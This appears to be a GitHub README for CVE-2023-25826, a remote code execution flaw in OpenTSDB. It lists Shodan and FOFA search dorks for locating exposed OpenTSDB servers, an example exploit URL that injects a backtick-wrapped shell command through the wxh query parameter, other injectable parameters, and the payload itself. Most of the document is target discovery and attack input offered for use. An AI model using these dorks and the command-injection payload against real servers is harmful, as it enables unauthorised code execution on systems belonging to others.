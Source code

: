 # CVE-2023-25826
![](https://img.shields.io/static/v1?label=Product&message=OpenTSDB&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20Current%20Versions%20<=%202.4.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.favicon.hash:407286339
```
```
http.html_hash:-392672026
```
```
html:"OpenTSDB"
```

- FOFA dork:
```
icon_hash="407286339"
```

### Usage
```
The paramenter wxh needs some sanitation before being used by opentsdb.

See example url:

http://target_url:4242/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60id%60&style=linespoint&png

Results in RCE unfortunately

More parameters:

    wxh
    start
    m
    o
    key
    style
```
Payload:
```
%60id%60
```
